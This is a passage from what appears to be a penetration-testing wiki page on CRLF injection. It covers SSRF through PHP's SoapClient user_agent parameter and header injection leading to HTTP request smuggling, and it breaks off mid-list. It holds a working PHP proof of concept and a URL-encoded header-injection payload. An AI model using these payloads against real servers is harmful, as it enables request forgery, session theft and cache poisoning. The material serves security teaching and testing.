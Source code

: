 ```
#### SSRF and HTTP Request Injection via CRLF

CRLF injection can be utilized to craft and inject an entirely new HTTP request. A notable example of this is the vulnerability in PHP's `SoapClient` class, specifically within the `user_agent` parameter. By manipulating this parameter, an attacker can insert additional headers and body content, or even inject a new HTTP request entirely. Below is a PHP example demonstrating this exploitation:

```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```
```
### Header Injection to Request Smuggling

For more info about this technique and potential problems [[https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning|**check the original source**]].

You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```
```
Afterward, a second request can be specified. This scenario typically involves [[http-request-smuggling/|HTTP request smuggling]], a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:
